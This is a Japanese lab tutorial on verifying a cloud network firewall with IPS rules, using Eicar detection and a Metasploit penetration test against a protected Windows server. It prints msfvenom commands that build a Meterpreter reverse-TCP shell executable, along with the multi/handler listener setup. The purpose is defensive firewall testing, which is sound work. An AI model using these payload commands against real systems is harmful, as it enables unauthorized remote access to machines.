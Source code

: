 出力されたログから、手順1-3で作成したルール「others-ips」によって「Eicarファイルが検知」され、クライアントPCのグローバルIPアドレスからの接続がリセットされていることが分かります。
 ![画面ショット27](nfwips27.png)


<br>


# 6. Kali LinuxのMetasploit Frameworkを用いたNetwork Firewallの動作検証


本手順ではKali LinuxにインストールされているMetasploit FrameworkのReverse TCP Shellを用いて、Network Firewallに保護されたコンピュート（Windows）へ侵入テストを実施します。


Reverse TCP Shellとは、被害側クライアントから攻撃側のサーバーに対してTCPのポートを使用したシェルを提供する仕組みのことです。
通常、攻撃者は攻撃対象のシステムのシェルを使用してコマンドなどを実行します。しかし、ほとんどのシステムはファイアウォールにより特定のポートに対する不正なインバウンド通信などは制御されているため、攻撃者が直接シェルと通信を確立するのは難しいです。
しかし、ほとんどのシステムはファイアウォールにより外から内へのインバウンド通信を制御していますが、内から外へのアウトバウンド通信を制御していないことがあります。そのような場合に、攻撃者が攻撃対象のシステム上のシェルでコマンドを実行するために利用されるのがReverse TCP Shellになります。


今回はKali Linuxを攻撃側（クライアント）とし、Windowsサーバーに接続します。Kali LinuxのMetasploit Frameworkを用いてReverse TCP Shellを実行する実行ファイルを生成します。Kali LinuxはWindowsからの接続をListen状態で待っている際、Windowsサーバーが実行ファイルをダウンロードし、実行するとWindowsサーバーからKali Linuxへのアウトバウンド通信が発生してセッションが確立されます。


## 6-1. ファイルの作成

本手順では、被害側クライアントが実行すると、攻撃側のサーバーにTCPポートを使用した通信が発生するファイルを作成します。
Kali Linuxにリモートデスクトップ接続します。
 ![画面ショット28](nfwips28.png)

Kali Linuxのデスクトップ画面左上のメニューから、「Terminal Emulator」をダブルクリックで開きます。
 ![画面ショット29](nfwips29.png)

以下コマンドで、Reverse TCP Shellの通信を確立するファイルを生成します。
```sh
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Kali LinuxのIPアドレス> LPORT=4444 -f exe -o <ファイルを生成するディレクトリ>/<ファイル名>
```

 ![画面ショット30](nfwips30.png)

Kali Linuxのデスクトップ画面左上のメニューから「Metasploit framework」を検索し、アプリをダブルクリックしてターミナルを開きます。
 ![画面ショット31](nfwips31.png)

開かれたターミナルで、以下コマンドを実行します。
```sh
msf6> use exploit/multi/handler
msf6 exploit(multi/handler)> set LHOST <Kali LinuxのIPアドレス>
msf6 exploit(multi/handler)> set LPORT 4444
msf6 exploit(multi/handler)> exploit
```
 ![画面ショット32](nfwips32.png)
